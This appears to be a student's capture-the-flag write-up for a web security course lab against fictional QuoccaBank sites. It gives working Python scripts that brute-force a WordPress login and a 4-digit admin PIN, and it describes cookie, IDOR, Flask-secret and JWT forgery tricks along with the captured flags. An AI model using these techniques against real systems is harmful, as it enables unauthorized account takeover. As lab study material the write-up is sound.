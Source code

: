 # Topic 2 Challenges

### blog.quoccabank.com

- metadata in page source
  - COMP6443{ivefinallyfoundsomeone}
  
- change param query to https://blog.quoccabank.com/?s=comp
  - COMP6443{restructuringisonthecards}
  - COMP6443{strongpasswordsaregreat}
  - COMP6443{hiddenpostflag}
  
- Finding user `mq`

  - It appears that we can login using this url route https://blog.quoccabank.com/wp-login - can be found either in this post (https://blog.quoccabank.com/?page_id=2) or searching default routes for wordpress login

  - We can also search up different authors using this url https://blog.quoccabank.com/?author=2. However, trying different params, at `id` 3, it gives us a different error page than an invalid author id.

    - By inspecting the source code, it appears that the author name is embedded in the body class and thus we know one of the user is `mq`

  - Having the username to login, we can create a script to bruteforce the password.

    ```python
    def brute_force_pwd(pwd, throttle=0):
        # make request
        username = 'mq'
        payload = {
            'log': username,
            'pwd': pwd
        }
        res = requests.post('https://blog.quoccabank.com/wp-login.php', data=payload, cert=(cert_path, key_path))
        time.sleep(throttle)
    
        if res.status_code == 420:
            # make the same request again
            brute_force_pwd(pwd, throttle + 0.1)
        else:
            print("Password: " + pwd)
            if f"The password you entered for the username <strong>{username}</strong> is incorrect." not in res.text:
                print("=== FOUND ===")
                print(res.text)
                exit()
    
    if __name__ == '__main__':
        # common_passwords.txt - SecLists https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100000.txt
        with open("common_passwords.txt", "r") as pwd_list:
            for pwd in pwd_list:
                brute_force_pwd(pwd.strip())
    ```

  - Logging in with the credentials: Username: `mq` Password: `1q2w3e`

    - Gives us access to the admin panel which when going to https://blog.quoccabank.com/wp-admin/users.php, gives us the flags

  - COMP6443{Ifoundsarah} and COMP6443{Ialsofoundtimmy}

### sales.quoccabank.com

- COMP6443{base64isgr8.ejUzMTI3OTk=.S1NRViogQXNb6MGD/b2Aew==}
  - when trying to login, we are given the cookie `admin=0` in base64. Changing the cookie to `admin=1` gives us access to the main page which shows the flag.

### files.quoccabank.com

- COMP6443{1D0R_1S_A_TH1NG.ejUzMTI3OTk=.Hrrw792KFENJSEqK6K02+Q==}

  - When creating a note, it would appear that the URL is given the file name and username encrypted in base64 `https://files.quoccabank.com/document/<file_name>?r=<username>`. Replacing each respected value gives us the file containing the flag - https://files.quoccabank.com/document/flag?r=YWRtaW4=

- COMP6443{I_DONT_LIKE_JAVASCRIPT.ejUzMTI3OTk=.kCJG2n5smm+4xMsQY5vk4w==}

  - From the last flag, it gives us a hint `TODO: I should probably remove /admin` where a `/admin` route exists. This gives us a 4 digit pin to enter. We can bruteforce it by running a script.

    ```python
    def brute_force_pin(pin, throttle=0):
        # make request
        payload = {
            'pin': pin
        }
        res = requests.post('https://files.quoccabank.com/admin', data=payload, cert=(cert_path, key_path))
        time.sleep(throttle)
    
        if res.status_code == 420:
            # make the same request again
            brute_force_pin(pin, throttle + 0.1)
        else:
            print("Pin: " + pin)
            if "COMP" in res.text:
                print("=== FOUND ===")
                print(res.text)
                exit()
    
    if __name__ == '__main__':
        # brute force pin
        for i in range(0, 10000):
            pin = str(i).zfill(4)
            brute_force_pin(pin)
    ```

  - Pin: `1024`

- COMP6443{DO_U_LIKE_JAVASCRIPT.ejUzMTI3OTk=.HXMey6l5LPrvKsbKE6DozQ==}

  - By getting the last flag, we are given the clue `DEPRECATED, plz use fancy javascript frontend`

  - Checking and deobfuscating the JavaScript of the home page, we are given this message:

    ```python
    [e._v(" WFH Help Page ")]), n("p", [e._v(" Welcome fellow Quokkaers! ")]), n("p", [e._v(" We used to host onboarding events, but now everyone's working from home due to coronavirus. In order to get staff\n    access from home, simply execute\n  ")]), n("p", [e._v(" We've found it's more secure, simply execute")]), n("code", [e._v("/covid19/supersecret/lmao/grant_staff_access?username=adam")]), n("p", [e._v("but replace "), n("code", [e._v("adam")]), e._v(" with your own username ")])]
    ```

  - Accessing this URL `?covid19/supersecret/lmao/grant_staff_access?username=<username>` with our user gives us staff access and when reloading the home page, two new files show up

    ![image-20210708223107682](images/image-20210708223107682.png)

  - The file `staff_super_secret_file` contains the flag

- COMP6443{WHAT_IS_FLAAAASK.ejUzMTI3OTk=.HU+ofDxnUl2hBLeR2JmBLA==}

  - From the last flag, the file `staff_flask_secret_key` gives us the contents `$hallICompareTHEE2aSummersday`
  - Searching up what is a flask secret key gives us that it is `used to encrypt your cookies and save send them to the browser`
  - It would also be worth noting that using a JWT decoder, it appears that there are two fields in the header, `username` and `role`
  - Since we have the secret key, we can potentially create a fake cookie that gives us admin privileges by changing the role - https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe

### notes.quoccabank.com

- COMP6443{IMAGINE_VERIFYING_SIGNATURE.ejUzMTI3OTk=.C45kSzER3f7xiv0R7LIlqA==}
  - Inspecting the cookie, it appears to be a JWT. By modifying it such that the email is `admin@quoccabank.com` gives us the flag
